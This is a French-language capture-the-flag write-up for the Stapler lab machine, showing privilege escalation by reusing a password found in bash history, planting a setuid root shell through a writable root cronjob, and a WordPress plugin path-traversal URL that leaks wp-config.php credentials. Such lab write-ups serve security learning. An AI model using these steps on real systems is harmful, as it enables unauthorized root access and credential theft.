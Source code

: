 # Autres Méthodes

## L'élévation de privililège bis: Choisir le bon user

En regardant dans `/etc/group` on remarque que le user `peter` est sudoer donc
on cherche des informations le concernant.

```
cat /etc/group | grep sudo
grep -R . | grep -i peter
JKanode/.bash_history:sshpass -p JZQuyIN5 peter@localhost
#sshpass -p JZQuyIN5 peter@stapler
ssh peter@stapler
password: JZQuyIN5
sudo su
```

## L'élévation de privilège ter: Utiliser un cronjob

> Cron est le gestionnaire des tâches devant être exécutées à un moment précis. Chaque utilisateur a un fichier crontab, lui permettant d'indiquer les actions à effectuer régulièrement.

On cherche des cronjobs writables éventuels éxécutés par root pour setup un setuid.
```
find / -name *cron* > /tmp/output
cat /usr/local/sbin/cron-logrotate.sh
#! /bin/bash
gcc -o /tmp/xx /tmp/xx.c
chmod 777 /tmp/xx
chmod u+s /tmp/xx
```

`cat /tmp/xx.c`
```C
int main(void) {
setgid(0); setuid(0);
execl("/bin/sh","sh",0); }
```

Il faut attendre assez longtemps, et lorsque que le cronjob est déclenché il
suffit d'éxécuter `./xx` et on devient root

\pagebreak

## Planter un reverse shell depuis le wordpress

On réutilise le même exploit pour aller chercher le fichier suivant: \
[https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=../wp-config.php](https://stapler:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=123456789&short=rnd&term=rnd&thumb=../wp-config.php)

```php
<?php
/**
 * The base configurations of the WordPress.
 */

define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
```
